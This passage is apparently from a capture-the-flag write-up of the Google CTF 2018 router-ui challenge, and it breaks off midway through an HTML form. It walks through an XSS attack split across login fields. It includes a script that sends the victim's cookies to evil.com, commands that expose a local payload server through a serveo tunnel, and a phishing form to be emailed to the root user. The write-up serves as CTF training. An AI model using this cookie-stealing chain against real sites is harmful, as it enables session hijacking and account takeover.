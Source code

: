 Leveraging the "//" delimiter found earlier, we can split our XSS attack between the username and password fields by entering the following credentials:
```
username: <script src="http:
password: evil.com/something.js"></script>
```

This will force the document to generate the following html source:

```
Wrong credentials: <script src="http://evil.com/something.js"></script>
```

<img src="/assets/images/ctfs/google-ctf-beginners-quest-2018/54.png" alt="" class="center">

The "//" delimiter concatenates the username and password fields and joins our script tags together.

In order to exploit this vulnerability and steal the root user's cookies, we'll need to create a form for <b>http://router-ui.web.ctfcompetition.com</b> that will automatically submit our XSS redirection in the username and password fields. Forcing a user to click on a link with this form should trigger the XSS and execute our hosted JavaScript file. In the JavaScript file, we'll force the user to expose their cookie by appending it to a GET request on our server.

<b>evil.js</b>
```js
window.location.href="https://evil.com/log.php?"+document.cookie;
```

To prepare for the attack, we can spin up a SimpleHTTPServer with Python and temporarily expose our local web server with <a href="https://serveo.net/" target="_blank">Serveo</a>.

```
root@kali:~/google-ctf-2018/router-ui# python -m SimpleHTTPServer 80

root@kali:~/google-ctf-2018# ssh -R 80:localhost:80 serveo.net
```

<img src="/assets/images/ctfs/google-ctf-beginners-quest-2018/55.png" alt="" class="center">

The final task is to email our malicious form via a link to the root user, wintermuted@googlegroups.com. The link will contain the following html:

<b>index.html</b>
```html
<html>
  <body>
    <form action="https://router-ui.web.ctfcompetition.com/login" method="post">
      <input type="text" name="username" value="<script src='https:">

